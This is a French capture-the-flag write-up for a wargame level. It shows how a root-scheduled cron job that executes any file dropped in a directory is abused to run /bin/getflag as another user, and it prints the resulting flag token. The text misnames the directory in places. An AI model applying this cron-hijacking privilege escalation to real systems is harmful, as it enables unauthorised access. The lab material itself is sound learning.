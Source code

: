 ## Démarche

- Aucun fichier ou indice laissé dans le *home*
- Refaire les demarches des niveaux précédents
  
    `find / -name level05  -print 2>/dev/null`
    > /var/mail/level05
    
    > /rofs/var/mail/level05
    
    *Ces 2 fichiers comprennent la ligne suivante :*
    ```
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ``` 
    *il s'agit d'une tache cron, celle-ci exécute le script `/usr/sbin/openarenaserver` toutes les 2 minutes*
    
- Observer le script mentionné :
  
  `cat /usr/sbin/openarenaserver`

    ```
        #!/bin/sh

        for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
        done
    ```
    *Ce script exécute puis supprime les fichiers se trouvant dans le dossier /usr/sbin/openarenaserver*


- Placer un script dans le dossier `/usr/sbin/openarenaserver` pour que la tâche cron l'exécute :
    
    `touch test.sh`
    ```
    #!/bin/bash

    /bin/getflag > /tmp/flag05
    ```
    *Ce script imprime la sortie de /bin/getflag dans un fichier*

- Attendre que la tache s'exécute et récupérer le contenu du fichier créé :
  
    `cat /tmp/flag05`
    > Check flag.Here is your token : viuaaale9huek52boumoomioc



## Ressources

- https://www.digitalocean.com/community/questions/how-to-manage-var-mail-root-file
- https://www.hostinger.fr/tutoriels/cron-job/

